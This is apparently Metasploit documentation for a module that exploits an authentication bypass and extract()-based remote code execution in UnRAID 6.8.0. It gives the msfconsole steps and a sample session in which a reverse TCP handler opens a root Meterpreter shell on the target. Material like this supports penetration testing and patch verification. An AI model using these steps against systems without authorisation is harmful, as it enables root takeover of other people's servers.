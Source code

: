 ## Vulnerable Application

This module has been tested on UnRAID 6.8.0 without any configuration except setting a root password. Only UnRAID 6.8.0 is affected.

### Description

This module exploits an authentication bypass vulnerability caused by an insecure whitelisting mechanism in `auth_request.php` and then
performs remote code execution as root by abusing the *extract* function used in the `template.php` file.

### Testing Environment

Download links are provided for reference only and are not maintained by the project. Utilize at your own risk!
Setup [Unraid 6.8.0](https://s3.amazonaws.com/dnld.lime-technology.com/stable/unRAIDServer-6.8.0-x86_64.zip)
according to the [UnRAID Getting Started](https://wiki.unraid.net/UnRAID_6/Getting_Started) guide.

## Verification Steps

  1. Setup UnRAID 6.8.0
  2. Start `msfconsole`
  3. `use exploit/linux/http/unraid_auth_bypass_exec`
  4. `set RHOST [UNRAID]`
  5. `check`
  6. `run`
  7. You should get a new *root* session

## Options

### TARGETURI

The URI of the Unraid application

## Scenarios

```
msf > use exploit/linux/http/unraid_auth_bypass_exec.rb
msf exploit(linux/http/unraid_auth_bypass_exec) > set RHOSTS 10.10.0.173
RHOSTS => 10.10.0.173
msf exploit(linux/http/unraid_auth_bypass_exec) > check
[*] 10.10.0.173:80 - The target appears to be vulnerable.
msf exploit(linux/http/unraid_auth_bypass_exec) > run

[*] Started reverse TCP handler on 10.10.0.161:4444 
[*] Sending stage (38288 bytes) to 10.10.0.173
[*] Meterpreter session 1 opened (10.10.0.161:4444 -> 10.10.0.173:46894) at 2020-03-20 15:26:40 +0100
[+] Request timed out, OK if running a non-forking/blocking payload...

meterpreter > getuid
Server username: root (0)
```
